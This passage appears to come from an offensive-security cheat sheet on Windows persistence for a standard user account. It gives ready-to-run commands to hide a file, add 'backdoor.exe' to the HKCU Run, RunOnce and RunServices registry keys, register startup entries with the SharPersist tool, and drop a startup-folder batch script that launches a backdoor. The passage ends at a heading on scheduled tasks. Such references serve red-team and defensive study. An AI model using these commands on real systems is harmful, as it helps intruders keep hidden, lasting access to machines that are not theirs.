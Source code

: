 ## Simple User

Set a file as hidden

```powershell
attrib +h c:\autoexec.bat
```

### Registry HKCU

Create a REG_SZ value in the Run key within HKCU\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using the command line 

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
```

Using SharPersist

```powershell
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
```

### Startup

Create a batch script in the user startup folder.

```powershell
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using SharPersist

```powershell
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
```

### Scheduled Tasks User
